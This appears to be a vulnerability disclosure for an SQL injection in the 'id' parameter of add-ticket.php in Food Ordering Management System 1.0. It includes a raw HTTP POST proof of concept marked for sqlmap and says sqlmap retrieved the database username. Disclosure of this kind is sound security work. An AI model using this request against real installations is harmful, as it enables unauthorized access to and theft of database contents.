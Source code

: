 ##Food Ordering Management System has a front-end SQL injection vulnerability

## Affected version: 
Food Ordering Management System - 1.0

## Software:
https://www.sourcecodester.com/php/15689/food-ordering-management-system-php-and-mysql-free-source-code.html

## Vulnerability File:
/foms/routers/add-ticket.php

## Description:
Food Ordering Management  1.0 is vulnerable to an unrestricted SQL injection attack in /foms/routers/add-ticket.php with the attack parameter id. An attacker can exploit this vulnerability to directly obtain sensitive server information. A malicious attacker could exploit this vulnerability to obtain sensitive information in the server database.

Status: CRITICAL

POC
```
POST /foms/routers/add-ticket.php HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 68
Origin: http://localhost
Connection: close
Referer: http://localhost/foms/register.php
Cookie: PHPSESSID=cims89c5nt143re39d3ce6cdvd
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1

type=2dsadsad&id=2dsadsa*&subject=22312&description=21242421312312312
```

Get database username through sqlmap

![CleanShot 2024-09-04 at 16 05 07@2x](https://github.com/user-attachments/assets/d2b42765-9301-4603-a091-afef303bcf71)
![CleanShot 2024-09-04 at 16 05 41@2x](https://github.com/user-attachments/assets/1a460942-d900-4af8-b7a4-958c67a95daf)


